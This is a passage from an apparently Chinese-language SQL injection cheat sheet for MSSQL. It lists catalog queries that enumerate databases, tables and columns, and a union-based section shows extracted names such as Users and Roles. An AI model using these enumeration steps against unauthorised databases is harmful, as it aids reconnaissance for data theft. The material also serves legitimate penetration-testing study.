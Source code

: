 ### MSSQL 列出表

```sql
-- 使用 xtype = 'V' 列出视图
SELECT name FROM master..sysobjects WHERE xtype = 'U';
SELECT name FROM <DBNAME>..sysobjects WHERE xtype='U'
SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U';

-- 列出 master..sometable 的列名和类型
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable';

SELECT table_catalog, table_name FROM information_schema.columns
SELECT table_name FROM information_schema.tables WHERE table_catalog='<DBNAME>'

-- 更改分隔符值，例如将 ', ' 替换为你想要的任何其他值 => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  （仅在 MSSQL 2017+ 中有效）
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U';
```

### MSSQL 列出列

```sql
-- 仅当前数据库
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');

-- 列出 master..sometable 的列名和类型
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable'; 

SELECT table_catalog, column_name FROM information_schema.columns

SELECT COL_NAME(OBJECT_ID('<DBNAME>.<TABLE_NAME>'), <INDEX>)
```

## MSSQL 联合基于

* 提取数据库名称

    ```sql
    $ SELECT name FROM master..sysdatabases
    [*] 注入
    [*] msdb
    [*] tempdb
    ```

* 从 Injection 数据库提取表

    ```sql
    $ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
    [*] Profiles
    [*] Roles
    [*] Users
    ```
